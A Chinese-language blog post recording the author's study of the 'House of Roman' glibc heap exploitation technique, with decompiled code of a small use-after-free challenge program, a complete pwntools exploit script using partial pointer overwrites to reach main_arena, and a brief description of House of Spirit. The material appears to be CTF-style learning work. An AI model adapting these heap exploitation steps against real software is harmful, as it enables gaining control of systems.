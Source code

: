 ```yaml
---
layout: post
title:  "House of Roman 学习记录"
date:   2018-05-24 11:30:00
categories: 技术学习
tags: [技术学习]
---
```


<!-- more -->

### 技术分析

该技术通过12-bit的暴力破解来get shell。同时需要目标程序存在UAF漏洞，同时能够分配出unsorted bin 和 fastbins。

文章提供了一个简单UAF漏洞的程序：

```
 int v5; // [sp+Ch] [bp-4h]@3

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  v3 = stderr;
  setvbuf(stderr, 0LL, 2, 0LL);
  start_p(v3, 0LL);
  while ( 1 )
  {
    print_menu();
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 1:
        puts("Malloc");
        v5 = malloc_chunk();
        if ( !v5 )
          puts("Error");
        break;
      case 2:
        puts("Write");
        write_chunk();
        break;
      case 3:
        puts("Free");
        free_chunk();
        break;
      default:
        puts("Invalid choice");
        break;
    }
  }
}

```

开启的保护如下：

![](../image/2018-05-24-House_of_Roman学习记录/1.jpg)


### exp 代码

```
#!/usr/bin/python
from pwn import *

p = process("./new_chall",env={"LD_PRELOAD":"./libc-2.24.so"})
#raw_input()

def menu():
	p.recvuntil("3. Free")

def create(size,idx):
	menu()
	p.sendline("1")
	p.recvuntil(":")
	p.sendline(str(size))
	p.recvuntil(":")
	p.sendline(str(idx))

def free(idx):
	menu()
	p.sendline("3")
	p.recvuntil(":")
	p.sendline(str(idx))

def edit(idx,data):
	menu()
	p.sendline("2")
	p.recvuntil(":")
	p.sendline(str(idx))
	sleep(0.1)
	p.send(data)


name = "A"*20
p.recvuntil(":")
p.sendline(name)

create(24,0)
create(200,1)
fake = "A"*104
fake += p64(0x61)
edit(1,fake)

create(101,2)

free(1)
create(200,1)

over = "A"*24
over += "\x71"
edit(0,over)

create(101,3)
create(101,15)
create(101,16)
create(101,17)
create(101,18)
create(101,19)
free(2)
free(3)

heap_po = "\x20"
edit(3,heap_po)

arena_po = "\xcd\x4a"
edit(1,arena_po)
#raw_input()
create(101,0)
create(101,0)
create(101,0)
#p.interactive()

# Control arena through 0.
# Now unsorted bin attack.

# First fix 0x71 freelist.
free(15)
edit(15,p64(0x00))

# Fixed.
# 0x7f702619777b

create(200,1)
create(200,1)
create(24,2)
create(200,3)
create(200,4)

free(1)
po = "B"*8
po += "\xe0\x4a"
edit(1,po)

create(200,1)
#5b394f
over = "R"*19
over += "\x4f\x39\x5b"
edit(0,over)

create(200,7)
try:
	resp = p.recv(4, timeout=6)
	p.interactive()
except:
	p.close()
```

截图是interactive()产生的，不是getshell，这里只是分配到一块堆到main_arena地址上，后面做fastbins的修补工作。和堆风水相关很大，我的实验环境里地址和作者的地址相差很大。


任意地址free实现利用(House of Spirit)

当可以通过某种方式（比如栈溢出）控制free的参数时，就可以使用House of Spirit实现利用。大概的思路是free你要任意分配的地址，然后这个地址就会在再次分配的时候被分配到，但是要任意分配的地址要提起构造好伪chunk结构。

### 参考链接

https://gist.github.com/romanking98/9aab2804832c0fb46615f025e8ffb0bc

https://github.com/romanking98/House-Of-Roman